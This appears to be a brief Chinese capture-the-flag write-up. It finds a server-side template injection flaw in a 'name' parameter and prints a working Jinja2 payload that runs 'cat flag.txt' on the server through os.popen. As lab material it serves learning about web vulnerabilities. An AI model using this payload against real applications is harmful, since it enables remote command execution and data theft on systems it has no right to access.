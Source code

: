 ![upload successful](./images/pasted-481.png)
得到参数是name

![upload successful](./images/pasted-482.png)
测试发现存在SSTI模板注入

payload:`/?name={{lipsum.__globals__['os'].popen('cat flag.txt').read()}}`
